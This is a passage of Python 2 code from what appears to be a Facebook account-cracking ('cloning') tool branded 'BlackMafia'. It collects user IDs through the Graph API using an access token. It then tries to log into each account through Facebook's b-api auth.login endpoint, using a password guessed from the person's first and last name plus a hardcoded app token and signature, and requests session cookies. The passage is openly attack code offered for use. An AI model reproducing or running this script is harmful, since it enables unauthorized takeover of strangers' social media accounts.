 		z = json.loads(r.text)

		for i in z['data']:

			id.append(i['id'])

	elif peak =="0":

		menu()

	else:

		print "\x1b[1;97mFill in correctly"

		pilih_super()

	

	print "\033[1;97mTotal IDs\033[1;97m: \033[1;94m"+str(len(id))

	jalan('\033[1;94mPlease Wait\033[1;94m...')

	titik = ['.   ','..  ','... ']

	for o in titik:

		print("\r\033[1;94mCloning\033[1;97m"+o),;sys.stdout.flush();time.sleep(1)

	print "\n\033[1;97m«--•◈••◈•---\x1b[1;93m•◈•Stop Process Press CTRL+Z•◈•\033[1;97m---•◈••◈•-»"

	print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mBlackMafia\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"

	jalan(' \033[1;97m.................\033[1;93mCloning Start..\033[1;97m............ ')

	print "\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬•◈•\033[1;93mBlackMafia\033[1;97m•◈•▬ ▬ ▬ ▬ ▬ ▬ ▬ •◈•"

	

			

	def main(arg):

		global cekpoint,oks

		user = arg

		try:

			os.mkdir('out')

		except OSError:

			pass #Dev:love_hacker

		try:

			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)

			b = json.loads(a.text)

			pass1 = b['first_name'] + b['last_name']

			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

			q = json.load(data)
